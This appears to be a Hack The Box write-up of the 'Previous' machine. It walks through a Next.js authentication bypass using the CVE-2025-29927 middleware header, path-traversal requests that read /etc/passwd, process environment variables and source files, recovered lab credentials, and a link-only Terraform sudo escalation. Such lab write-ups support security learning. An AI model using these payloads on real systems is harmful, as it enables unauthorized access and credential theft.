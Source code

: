 ```yaml
---
title: "Previous"
date: 2025-09-22
categories: [HTB]
tags: [Linux, terraform,CVE]
---
```

![previous](/assets/previous-htb/logo.png)

## Nmap Scan

I started with a full port scan:
```shell
sudo nmap 10.10.11.83 -T4 -A -open -p-
```
![nmap](/assets/previous-htb/nmap.png)
the scan showed a web server running on port 80. There’s a login page and on it, I found an email: ```jeremy@previous.htb```
- tried using tools to brute force the login with jeremy as the username.
- I looked for ways to bypass the login  maybe a logic flaw, or something in the JavaScript.
- I found some interesting paths but they all needed me to be logged in first.<br>
Stuck? Maybe. But not for long.

```PreviousJS``` That Name Sounds Familiar The website uses something called ```PreviousJS.```.<br>
 I remembered  there was a recent vulnerability ```CVE-2025-29927```

## CVE-2025-29927

Found in March by ```Allam Yasser (@inzo_)``` and his friend ```Allam Rachid (@zhero_)```.<br>
You can read more about it here:<br>[https://github.com/aydinnyunus/CVE-2025-29927](https://github.com/aydinnyunus/CVE-2025-29927)<br>
This CVE lets you bypass authentication by sending a special header.
The Magic Header To get past the login, I added this header to my request:
```shell
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```
Example request:

```shell
GET /_next/data/qVDR2cKpRgqCslEh-llk9/docs.json HTTP/1.1
Host: previous.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Content-Type: text/html
Upgrade-Insecure-Requests: 1
If-None-Match: "17m2fyh3hl048k"
Priority: u=0, i
```
And just like that I got access to pages that should have been locked behind login
![access](/assets/previous-htb/access.png)

## Hidden Paths & LFI

Found Interesting Paths After bypassing the login, I checked this file which exist in by reading source code:
```shell
http://previous.htb/_next/static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js
```
![hidden](/assets/previous-htb/hidden.png)
Inside, I found a list of internal paths:
```shell
/
/_error
/docs
/docs/components/layout
/docs/components/sidebar
/docs/content/examples
/docs/content/getting-started
/docs/[section]
/signin
```
These are not just links they’re a map of the app’s structure Very useful for knowing where to look next.<br>
Found a Download Endpoint The I found this:
![helloworld](/assets/previous-htb/helloworld.png)
which by reading source code I found endpoint:
![endpoint](/assets/previous-htb/endpoint.png)

It lets users download files. That’s interesting and often dangerous.<br>
When you see “download” + user input?<br>
Think: Local File Inclusion (LFI).

I tested with:
```shell
/api/download?example=../../../../etc/passwd
```
It returned the contents of /etc/passwd.
![passwd](/assets/previous-htb/passwd.png)

## Next.js & User.txt

I confirmed that the server is running a ```Next.js``` application, likely under the user nextjs or node. <br>
This tells us the backend environment and helps us focus our next steps.<br>
In Linux, each running process has a special file:
```shell
/proc/self/environ
```
This file contains all environment variables for the current process in our case, the Next.js server.<br> I accessed it using our LFI:
```shell
/api/download?example=../../../../proc/self/environ
```
![environ](/assets/previous-htb/environ.png)
The output showed us important details:

- Working directory: ```PWD=/app```
- Possibly sensitive values like API keys or database passwords
- The word “self” means: “the process currently handling this request” which is the Next.js server.

This is a major win. I now know the application lives in ```/app```.<br>
With ```/app``` as our root, I can now look for key files and folders that define how the ```Next.js``` app works.

Based on ```Next.js``` [documentation](https://nextjs.org/docs/app/getting-started/project-structure), I expect to find:
- ```.next/``` compiled files, server code, and routing info
- ```routes-manifest.json``` lists all routes, rewrites, and redirects
- Special files like ```middleware.js```, ```next.config.js```, and ```API routes```<br>

So I focused on the ```.next``` folder because it holds backend logic including compiled server-side code.<br>
Inside ```.next/routes-manifest.json/```i found:
![routes](/assets/previous-htb/routes.png)
This file handles authentication logic how users log in, how sessions are managed, and where credentials are checked.
We read its contents through LFI:
```shell
/api/download?example=../../../../app/.next/server/pages/api/auth/[...nextauth].js
```
Inside, we found hardcoded credentials:
![creds](/assets/previous-htb/creds.png)
```shell
jeremy:MyNameIsJeremyAndILovePancakes
```
![user](/assets/previous-htb/user.png)


##  Root.txt

After gaining access as the user ```jeremy```, I ran linpeas.sh to look for possible privilege escalation paths.<br>
The scan did not highlight anything obvious, so I manually checked what commands the user can run with sudo.
```shell
sudo -l
```
Showed that jeremy can run Terraform as root:
![terraform](/assets/previous-htb/terraform.png)
This is a strong lead  being able to run Terraform with root privileges in a specific directory often opens the door to code execution as root, especially if environment variables are not properly restricted.

I searched for known exploits related to ```sudo + Terraform``` and found a detailed write-up:
[https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/](https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/)

The article explains how to abuse Terraform’s ```provider_installation``` and the ```TF_CLI_CONFIG_FILE``` environment variable to force Terraform to load and execute a malicious provider script as root.<br>

> JUST GO THROUGH WITH ARATICAL AND GET EASY ROOT
{: .prompt-info }